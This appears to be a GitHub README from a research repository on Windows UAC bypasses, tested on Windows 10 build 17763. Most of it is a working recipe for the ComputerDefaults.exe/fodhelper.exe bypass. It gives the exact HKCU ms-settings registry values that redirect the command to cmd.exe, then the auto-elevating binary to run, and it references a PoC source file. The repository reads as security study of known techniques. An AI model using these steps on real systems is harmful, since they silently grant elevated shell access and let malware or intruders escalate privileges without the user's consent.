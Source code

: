 # uac_bypasses
UAC Bypasses discovered while studying UAC/appinfo.dll and AutoElevate binaries.

Probably all of the bypasses listed here are known.

OS: Windows 10 Pro Version	10.0.17763 Build 17763


## ComputerDefaults.exe / fodhelper.exe
PoC File: computerdefaults_fodhelper_poc.cpp

Key #1: HKCU\SOFTWARE\Classes\ms-settings\Shell\Open\Command\\(Default) -> "C:\Windows\System32\cmd.exe"

Key #2: HKCU\SOFTWARE\Classes\ms-settings\Shell\Open\Command\DelegateExecute -> ""

Execute C:\Windows\system32\\{ComputerDefaults.exe,fodhelper.exe}

[PoC Image](https://i.imgur.com/oXFHduE.png)
